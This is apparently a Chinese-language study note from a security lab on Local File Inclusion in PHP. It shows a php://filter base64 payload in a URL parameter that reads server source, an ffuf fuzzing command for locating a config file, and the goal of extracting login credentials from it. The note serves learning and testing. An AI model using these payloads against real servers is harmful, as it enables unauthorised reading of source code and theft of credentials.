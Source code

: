 # LFI(Local File Inclusion)

## 利用LFI漏洞读取php执行文件
正常执行服务器的en.php文件:
> http://<SERVER_IP>:<PORT>/index.php?language=en
 

---
不加文件后缀php是因为，服务器会自动追加，
不然就是
> http://<SERVER_IP>:<PORT>/index.php?language=en.php 
---

但若想直接查看该en.php文件的源码,
该文件首先要存在LFI(Local File Inclusion)漏洞，
使用浏览器执行:
> http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=en

则会得到该php文件源码的base64编码的字符串形式。
但要注意，base64编码字符串必须符合base64的padding规则，即字符串必须符合3的倍数，不够的情况下用1道2个“=”补足。
对该base64编码的字符串进行解码即可查看到源码。

## 利用ffuf模块(需安装)扫描
任务之一就是利用
> http://<SERVER_IP>:<PORT>/index.php?language=en

来找到config.php的源文件代码,以此读出登录名、密码等。
但因不知道config文件的具体名称和位置,
因此需要使用ffuf来探测上述接口,具体在本地或服务器上执行:
> ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

可以看到config的文件名是configure.
因此,获取configure.php的源代码就和上述‘利用LFI漏洞读取php执行文件’一样了:
> http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=configure

fuff工具用途广泛，可用于多种用途：
* 目录发现，可选择在 URL 中的任何位置进行模糊测试。
* 子域名发现
* 使用各种 HTTP 方法进行模糊测试

(还未安装该模块，以后可以研究一下)

## base64加密及解密
使用base64进行编码：
``` Linux
[root@somebody]# echo "a" | base64
YQo=
```
使用base64进行解码：
``` Linux
[root@giantslayer1980 ~]# echo "YQo=" | base64 -d
a
```
依次,编码直接用 base64 ,可以多次编码,解码使用 base64 -d 即可。


